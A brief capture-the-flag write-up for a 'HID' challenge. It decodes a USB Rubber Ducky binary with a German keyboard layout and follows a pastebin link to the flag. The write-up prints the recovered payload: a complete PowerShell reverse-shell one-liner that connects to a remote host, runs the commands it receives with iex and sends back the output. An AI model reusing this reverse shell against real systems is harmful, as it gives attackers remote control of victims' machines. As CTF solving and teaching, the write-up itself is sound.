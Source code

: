 # HID
![](../../assets/Wednesday/hid_1.png)

[attachment file](../../assets/Wednesday/inject.bin)

We think, It is probably related to usb rubberducky.
so at the [ducktoolkit](https://ducktoolkit.com/decode#) we decode binary file with Germany layout

![](../../assets/Wednesday/hid_2.png)

There was a [pastebin](https://pastebin.com/raw/ZRD8jsvd) link at result
![](../../assets/Wednesday/hid_3.png)

It was contain flag

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10syskronCTF{y0u_f0und_m3}",80);$stream = $client.GetStream();[byte[)$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Flag : `syskronCTF{y0u_f0und_m3}`
